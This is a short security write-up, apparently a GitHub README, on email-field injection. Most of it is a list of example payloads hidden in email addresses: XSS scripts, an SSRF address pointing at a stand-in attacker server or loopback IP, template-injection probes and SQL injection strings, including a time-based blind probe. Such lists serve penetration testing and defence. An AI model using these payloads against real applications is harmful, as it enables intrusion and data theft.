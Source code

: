# Email Injection

![img-rtUvLFnmR2KBMV8sEA4DX](https://github.com/user-attachments/assets/1b39a6df-0e8d-4cf5-a3ff-40f02e1fecd4)


As someone who thrives on exploring the intricacies of security vulnerabilities, I believe in sharing the techniques and knowledge I use in real-world projects can collectively raise awareness and strengthen security knowledge.

Email injection is a critical yet often overlooked vulnerability in web applications. It occurs when an attacker bypasses input validation or security filters within an email field, injecting malicious payloads that can lead to severe security issues. 

#### For instance, by manipulating the email input field, such as using payloads like:
```perl
#XSS  
test+(alert(0))@example.com  
test@example(alert(0)).com  
"alert(0)"@example.com  
<script src=//xsshere?”@email.com  
  
#SSRF  
john.doe@abc123.ATTACKER_SERVER.com  
john.doe@[127.0.0.1]  
  
#Template Injection   
"<%= 7 * 7 %>"@example.com  
test+(${{7*7}})@example.com  
  
#SQL Injection   
"' OR 1=1 -- '"@example.com  
"mail'); SELECT version();--"@example.com  
a'-IF(LENGTH(database())=9,SLEEP(7),0)or'1'='1"@a.com
```

Attackers can potentially exploit weaknesses, causing unexpected behaviors or injecting harmful scripts. These vulnerabilities if left unaddressed, can be exploited for various purposes, such as executing JavaScript code or manipulating email systems, which might compromise user data or system integrity.

> Payload can be anything in anywhere:
```perl
[payload]"@domain.com  
name@"[payload]"domain.com  
name[payload]@domain.com  
name@domain.com[payload]
```

---

GitHub: [https://github.com/abolfazlvaziri](https://github.com/abolfazlvaziri)  
Instagram: [https://instagram.com/abolfazlvaziriofficial](https://instagram.com/abolfazlvaziriofficial)  
Telegram Channel: [https://t.me/AVN_COMMUNITY](https://t.me/AVN_COMMUNITY)  
YouTube: [https://www.youtube.com/@abolfazlvaziri](https://www.youtube.com/@abolfazlvaziri)


